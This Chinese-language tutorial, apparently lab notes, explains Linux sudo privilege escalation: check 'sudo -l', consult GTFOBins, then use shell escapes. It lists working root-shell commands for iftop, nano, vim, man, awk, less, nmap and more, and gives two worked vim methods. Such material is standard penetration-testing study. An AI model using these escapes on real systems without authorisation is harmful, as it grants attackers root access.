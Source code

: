 输入命令" sudo -l " ，查看普通用户user能够以root权限运行何种服务且不需要密码：

![image-20221009204625075](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009204625075.png)

访问GTFOBins（https://gtfobins.github.io/）并搜索上图中的程序名称，如果某些程序以“ sudo”被列出，你就可以尝试使用它来提升权限，这个过程通常是通过转义序列来完成。

上图列出的命令或者程序在 GTFOBins 上没有 shell 转义序列的是：

![image-20221010001117660](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010001117660.png)

从命令" sudo -l "的输出列表中选择一个程序，然后使用 GTFOBins 中的命令尝试获得一个 root shell，具体的指令已经记录在下面：

```shell
#iftop的sudo提权命令
sudo iftop
!/bin/sh

#nano的sudo提权命令
sudo nano
^R^X
reset; sh 1>&0 2>&0

#vim的sudo提权命令
sudo vim -c ':!/bin/sh'  #还有其他可行命令，但是需要语言环境支持，具体请参考GTFOBins

#man的sudo提权命令
sudo man man
!/bin/sh

#awk的sudo提权命令
sudo awk 'BEGIN {system("/bin/sh")}'

#less的sudo提权命令
sudo less /etc/profile
!/bin/sh

#nmap的sudo提权命令（禁用输入回显）
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF

#nmap的sudo提权命令（利用nmap版本2.02至5.21的交互模式）
sudo nmap --interactive
nmap> !sh

#more的sudo提权命令
TERM= sudo more /etc/profile
!/bin/sh
```

选择vim程序来进行提权操作（退出vim使用" :quit "）：

```shell
#方法一：输入sudo vim，然后在vim编辑器界面按下Shift键加" : "键，接着输入"!sh"，按下回车即可
sudo vim 
:!sh      #用:!bash也可以
whoami

#方法二：输入以下命令，执行即可
sudo vim -c ':!/bin/bash'  #也可以用sudo vim -c ':!/bin/sh'

#两种方法原理是一样的，都是尝试让vim程序执行 启动shell的命令（可以启动bash、sh等）
```
